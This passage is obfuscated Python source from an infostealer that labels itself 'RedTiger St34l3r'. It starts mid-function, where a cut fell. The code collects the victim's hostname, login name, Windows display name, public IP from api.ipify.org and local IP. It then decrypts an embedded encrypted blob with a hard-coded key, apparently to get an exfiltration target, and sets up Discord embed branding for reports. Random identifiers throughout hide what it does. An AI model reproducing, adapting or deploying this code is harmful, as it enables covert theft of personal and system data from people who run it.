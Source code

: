     KCRZCJRJYTFKJPXYUBJMBHVQLRNLXTFHEJLQWGWHNPPWSPGUDJGMFVNOKFRXFLRDJCMNCBXIWNKQUZKMKBVFZUG = RDIQXXOOORGWZYYTXPSWVOIXJWQKZWTAVUGGZVMKWKMFSIHTMEWLJVGNYOKWHOKEUJKCIKTZWYQGKDRMZLQGTZXXDKRBLYZGDGV.update(JBYEIMNXPTQWELJUMTXSICEKYTHGEDMSFAZVWZQNDJVMUJEJBCATHHGQBDDIQHNRDAICYBLQROBPRTDK_data) + RDIQXXOOORGWZYYTXPSWVOIXJWQKZWTAVUGGZVMKWKMFSIHTMEWLJVGNYOKWHOKEUJKCIKTZWYQGKDRMZLQGTZXXDKRBLYZGDGV.finalize()
    YDOIPNKBOBKTJUZAOHNTGLBHHMCFKQUUKDLNKYLDSQFYGZEHFPZMBWQJZMQMFHYVBPANYHRHNCBPWSGEJRNOIMJAWYRRNEHZT = padding.PKCS7(128).unpadder()
    UZGNBDNDJBDXDPRYDVBJMLYUCTLHNPYFPQGYITUMDZCKKBUMHVWJSTBEGWXVJUCHLBIDEIOHOZOWN = YDOIPNKBOBKTJUZAOHNTGLBHHMCFKQUUKDLNKYLDSQFYGZEHFPZMBWQJZMQMFHYVBPANYHRHNCBPWSGEJRNOIMJAWYRRNEHZT.update(KCRZCJRJYTFKJPXYUBJMBHVQLRNLXTFHEJLQWGWHNPPWSPGUDJGMFVNOKFRXFLRDJCMNCBXIWNKQUZKMKBVFZUG) + YDOIPNKBOBKTJUZAOHNTGLBHHMCFKQUUKDLNKYLDSQFYGZEHFPZMBWQJZMQMFHYVBPANYHRHNCBPWSGEJRNOIMJAWYRRNEHZT.finalize()
    return UZGNBDNDJBDXDPRYDVBJMLYUCTLHNPYFPQGYITUMDZCKKBUMHVWJSTBEGWXVJUCHLBIDEIOHOZOWN.decode()

CWBOZGMJHYZGGNCWEYTTKRPEXINHGAERCIXQLSRBFLDSOOPSUFANUMUJUO("")

try: PFOIWWOUVAFQCCNOVKPNCHPRZGGCSGWKIUJSKOFZOZUYBGWQSKAPPVAOEJYMMDMQUZKVWP    = socket.gethostname()
except: PFOIWWOUVAFQCCNOVKPNCHPRZGGCSGWKIUJSKOFZOZUYBGWQSKAPPVAOEJYMMDMQUZKVWP = "None"

try: NLOGMTJKQEMFJYBHSLEZNUGZHHGSGNLXOYEXJEEINQRFECXRZLVOYKXVCDFONCYDKHZGIBMLCUGVNTYJAZCBJIJLTQ    = os.getlogin()
except: NLOGMTJKQEMFJYBHSLEZNUGZHHGSGNLXOYEXJEEINQRFECXRZLVOYKXVCDFONCYDKHZGIBMLCUGVNTYJAZCBJIJLTQ = "None"

try: XHSOTXASWJCFPLUXXXLLPSRIEXIQZSPCPGFWHBFUXZZVPXNMWBLKALOU    = win32api.GetUserNameEx(win32api.NameDisplay)
except: XHSOTXASWJCFPLUXXXLLPSRIEXIQZSPCPGFWHBFUXZZVPXNMWBLKALOU = "None"

try: OWZPKISWFCREINMYLYOQYEQPQTDTIZVPXTSCYXBPTRQSEOSICUDJWMDVPYDZLDVQJYUSFSJL    = requests.get("https://api.ipify.org?format=json").json().get("ip", "None")
except: OWZPKISWFCREINMYLYOQYEQPQTDTIZVPXTSCYXBPTRQSEOSICUDJWMDVPYDZLDVQJYUSFSJL = "None"

try: WEAYWNZABYNODHSGXOLNCXZXONWWGTJJPNWEIGTIGARWMCUJKJWLCKZICLFLUPBWQSXXE    = socket.gethostbyname(socket.gethostname())
except: WEAYWNZABYNODHSGXOLNCXZXONWWGTJJPNWEIGTIGARWMCUJKJWLCKZICLFLUPBWQSXXE = "None"

ETPKEGGRPYOPBFHDMENDLTEFOIHWCVQWIOVRTVYXTIYGCBNNGUXFQMWHMLNFYVQSRTMFKYISIEQOGIWT = r"""
u5WSBKNs17nT0ChDN8/E90fOHGUy8aHcLbNfSKfr/Mw+huSwzdDkYIAw0Cv8qIwAfUiPAEIVh6apQZipg9iVA8rsPcji/vtA2XfNPCNwd15j0zd4qf/ztS3/kCme12owUCnxZdQtl9Bz72ihhfHJNTfVv1fKM94bBw0xEJzFkXNelv8s+FUdFkgfQ+xlH6XBsjUF5X8hyTvy7Qf7Be5McQ==
"""

UVALGOACAFRUMMXIPSBCFQPANCZSYIDZAZHFMIHCRZFSWUJKOJBNHHY            = "pGEbFLLBqxZvTZfRnQahKFnvQZtbxyfyWUzNztBORPEZZePRFUKIITvVibYZzueSERUKiHpWCnRtmktSLgomrSOKmieyzWPhDUjrtuaWXJnMUwgYQzJChSmQWBxNOFHzRtThBnfqlSrNJfENoXsVRfHWOblXinpYsFxYayTSKHbMxMrzhoHezKfhqXNY"
MSXRVKKUDRKQPPGODVGLZBHGERKPUNRDQDOKMNUMOOIDPIPYORCYLFYVMWCARNQEWYDXEQQQFNUBKSLMDWIQTNWF        = "redtiger.shop"
OKMCIFVOHHRWOOWUZYGNVXDGSREFYCJDPSPOIMUQFNFXFVJXBMHOUZPQFRVMWSYMDFAFSFX    = 0xa80505
OYCDBKYQEPDKHPUESFGJOLRQYSFXTCYTKCTUMCXKBCCPMCIIMVQQGQYBSYMGASU = "RedTiger St34l3r"
RPKDOBYFEXPLFGWHSZJLJYUDKOQHQBWZSLWPSOTUWYFCHJVNHKFOWEWOYGUYMLTXRCWPZZEZLLYFEIZ   = "https://cdn.discordapp.com/attachments/1337898355279401023/1341890893858213908/RedTiger-Logo.png?ex=67b7a4c8&is=67b65348&hm=174ddbd80dd8570fa83779687def6eda441a7c12abd3765d970c1958ceeb1ec8&"
HCGWLTGHNORLJAFTRGEIVUFUWZANRHYBTAWNFWEYDYGQGUTYPOFUANQCDSTMVCCXTZWN    = "RedTiger St34l3r - github.com/loxy0dev/RedTiger-Tools"
VALUEBHSDITREGJSVOJQGCIRRUVCJUZQOPYWKSBXJUAHSEVONJLAQQOYHMG   = {"text": HCGWLTGHNORLJAFTRGEIVUFUWZANRHYBTAWNFWEYDYGQGUTYPOFUANQCDSTMVCCXTZWN, "icon_url": RPKDOBYFEXPLFGWHSZJLJYUDKOQHQBWZSLWPSOTUWYFCHJVNHKFOWEWOYGUYMLTXRCWPZZEZLLYFEIZ}
MYFIQRXYWXELTRZSVXPYXGCUEIAHHGHWRHLOPKIFHXVRDLGHXEHSRKZUCAUELORUVNDYKSYHBXDWRXWBCWVSVSIARINCHFFTMYA    = f'`{NLOGMTJKQEMFJYBHSLEZNUGZHHGSGNLXOYEXJEEINQRFECXRZLVOYKXVCDFONCYDKHZGIBMLCUGVNTYJAZCBJIJLTQ} "{OWZPKISWFCREINMYLYOQYEQPQTDTIZVPXTSCYXBPTRQSEOSICUDJWMDVPYDZLDVQJYUSFSJL}"`'
AWYDZXKNMNCAFZWEUXFADCLOWASGYIWLJWAKYXHSQPNVXODYGPUVTXVHXXB    = BLCLBNLJBLQTONCRPRSXJVOYQAFLKFWHJUXFKHFZKYJHIWCMRSGMEAAZRNEPSNGNBLMWROCINFJLACRYHQFNIYIO(ETPKEGGRPYOPBFHDMENDLTEFOIHWCVQWIOVRTVYXTIYGCBNNGUXFQMWHMLNFYVQSRTMFKYISIEQOGIWT, UVALGOACAFRUMMXIPSBCFQPANCZSYIDZAZHFMIHCRZFSWUJKOJBNHHY)
